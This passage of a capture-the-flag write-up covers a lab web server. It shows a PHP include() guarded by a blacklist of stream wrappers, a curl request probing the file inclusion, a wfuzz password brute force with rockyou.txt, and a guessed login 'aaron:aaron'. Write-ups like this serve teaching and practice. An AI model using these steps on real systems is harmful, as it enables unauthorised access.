         5   │     $blacklist = array("php://input", "phar://", "zip://", "ftp://", "file://", "http://", "data://", "expect://", "https://", "../");
        6   │ 
        7   │     foreach ($blacklist as $item) {
        8   │         if (strpos($text, $item) !== false) {
        9   │             return false;
        10   │         }
        11   │     }
        12   │     return substr($text, 0, 1) !== "/";
        13   │ 
        14   │ }
        15   │ 
        16   │ if (isset($_GET['img'])) {
        17   │     if (is_safe_include($_GET['img'])) {
        18   │         include($_GET['img']);
        19   │     } else {
        20   │         echo "Hacking attempt detected!";
        21   │     }
        22   │ }
        ───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        ```




#### RCE via LFI
From the code above we can see that if we ask for "safe" files, we can access to them without the filter.
```bash
❯ curl "http://10.10.11.135/image.php?img=js/profile.js"
function updateProfile() {
    var xml = new XMLHttpRequest();
    xml.onreadystatechange = function () {
        if (xml.readyState == 4 && xml.status == 200) {
            document.getElementById("alert-profile-update").style.display = "block"
        }
    };

    xml.open("POST", "profile_update.php", true);
    xml.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xml.send("firstName=" + document.getElementById("firstName").value + "&lastName=" + document.getElementById("lastName").value + "&email=" + document.getElementById("email").value + "&company=" + document.getElementById("company").value);
}
```
Now we need to find a way to upload a file to the server without being authenticated. As a last resource, we try bruteforcing the user aaron:
```bash
❯ wfuzz -u "http://10.10.11.135/login.php?login=true" -H "Content-type: application/json" -d '{"user":"aaron","password":"FUZZ"}' -w /usr/share/dict/rockyou.txt -t 200 --hh 5959
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.135/login.php?login=true
Total requests: 14344391

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

```
Not even 14 million passwords could break into the application...
After some time trying to get authenticated, we tried the credential `aaron:aaron`. So we obtained a user 2 account on the web, let's see what can we do as so.